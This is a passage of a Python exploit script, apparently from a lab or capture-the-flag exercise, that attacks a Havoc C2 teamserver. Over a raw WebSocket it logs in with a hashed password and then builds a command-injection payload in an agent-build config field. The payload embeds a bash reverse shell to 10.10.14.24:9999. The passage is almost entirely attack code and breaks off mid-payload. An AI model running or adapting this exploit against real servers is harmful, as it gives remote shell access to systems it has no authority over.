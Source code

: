```python
    data = frame[index:index+length]
    return data.decode() if is_text else data  # return str or bytes

# ========== Connect and Handshake ==========
#sock = socket.create_connection((HOST, PORT))
handshake = (
    "GET /havoc/ HTTP/1.1\r\n"
    f"Host: {HOST}:{PORT}\r\n"
    "Upgrade: websocket\r\n"
    "Connection: Upgrade\r\n"
    "Sec-WebSocket-Key: x3JJHMbDL1EzLkh9GBhXDw==\r\n"
    "Sec-WebSocket-Version: 13\r\n"
    "\r\n"
)
#sock.sendall(handshake.encode())
write_socket(socket_id, handshake.encode())

# Wait for handshake response
#resp = sock.recv(4096)
resp = read_socket(socket_id)
# if b"101 Switching Protocols" not in resp:
#     print("[!] WebSocket handshake failed")
#     exit(1)
# print("[+] WebSocket handshake completed")

# ========== Authenticate ==========
auth_payload = {
    "Body": {
        "Info": {
            "Password": hashlib.sha3_256(PASSWORD.encode()).hexdigest(),
            "User": USER
        },
        "SubEvent": 3
    },
    "Head": {
        "Event": 1,
        "OneTime": "",
        "Time": "18:40:17",
        "User": USER
    }
}
payload_json = json.dumps(auth_payload)
frame = build_websocket_frame(payload_json)
#sock.sendall(build_websocket_frame(json.dumps(auth_payload)))
write_socket(socket_id, frame)
#resp = parse_websocket_frame(sock.recv(4096))
#print("[+] Auth Response:", resp)
resp = read_socket(socket_id)

# ========== Trigger RCE with `whoami` ==========
cmd = "bash -c 'bash -i >& /dev/tcp/10.10.14.24/9999 0>&1'"
injection = r""" \\\\\\\" -mbla; """ + cmd + r""" 1>&2 && false #"""

rce_payload = {
    "Body": {
        "Info": {
            "AgentType": "Demon",
            "Arch": "x64",
            "Config": (
                "{\n"
                "    \"Amsi/Etw Patch\": \"None\",\n"
                "    \"Indirect Syscall\": false,\n"
                "    \"Injection\": {\n"
```